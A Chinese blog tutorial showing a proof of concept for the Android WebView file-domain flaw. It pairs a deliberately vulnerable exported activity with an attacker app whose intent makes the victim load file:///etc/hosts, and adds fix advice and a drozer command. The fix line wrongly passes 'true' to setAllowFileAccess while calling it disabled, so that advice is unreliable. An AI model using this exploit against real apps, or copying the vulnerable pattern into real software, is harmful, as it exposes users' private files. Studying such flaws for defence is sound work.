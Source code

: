 title: android webview file域控制不严格利用
abbrlink: 3957115657
date: 2019-04-29 13:37:55
tags: 
- android安全 
- webview
description: more
---
## webview file域控制不严格读取内部私有文件
必须条件：  
1.存在webview的activity组件可导出  
2.当前的webview允许使用file协议  

可利用app关键代码:  

```
android:exported="true"//api17及以上版本默认为false
webView.getSettings().setAllowFileAccess(true);//默认是true
```

MainActivity.java  

```
public class MainActivity extends AppCompatActivity {

    private WebView webView = null;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
//        setContentView(R.layout.activity_main);
        webView = new WebView(this);
        setContentView(webView);
        webView.setWebViewClient(new WebViewClient());
        webView.getSettings().setAllowFileAccess(true);
        Intent mIntent = this.getIntent();
        Bundle bundle = mIntent.getBundleExtra("bundle");
        String url = bundle.getString("url");
        webView.loadUrl(url);
    }
}
```
AndroidManifest.xml  

```
<activity android:name=".MainActivity" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" android:exported="true" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
```

攻击app关键代码:  

MainActivity.java

```

public class MainActivity extends AppCompatActivity {

    public static final String LOAD_URL="file:///etc/hosts";
//    public static final String BAIDU="https://www.baidu.com";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        ComponentName componentName = new ComponentName("com.demo.victim","com.demo.victim.MainActivity");
        Intent intent = new Intent();
        Bundle bundle = new Bundle();
        intent.setComponent(componentName);
        bundle.putString("url",LOAD_URL);
        intent.putExtra("bundle",bundle);
        startActivity(intent);

    }
}
```

利用:    
先安装可利用app在安装攻击app，在打开攻击app  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/30/01.jpg)

修复:  
设置android:exported="false" 设置为不可导出  
webView.getSettings().setAllowFileAccess(true);明确禁用file协议

工具:  
使用drozer查看activity导出  
```
run app.activity.info -a com.xx.xx
```
代码:  
[webview](https://github.com/tea9/android_repetition/tree/master/webview)  

## LINNKS
[Android WebView File域同源策略绕过漏洞浅析](https://blog.csdn.net/jltxgcy/article/details/50678304)  
[WebView域控不严格读取内部私有文件实验](https://www.freebuf.com/articles/terminal/160061.html)  
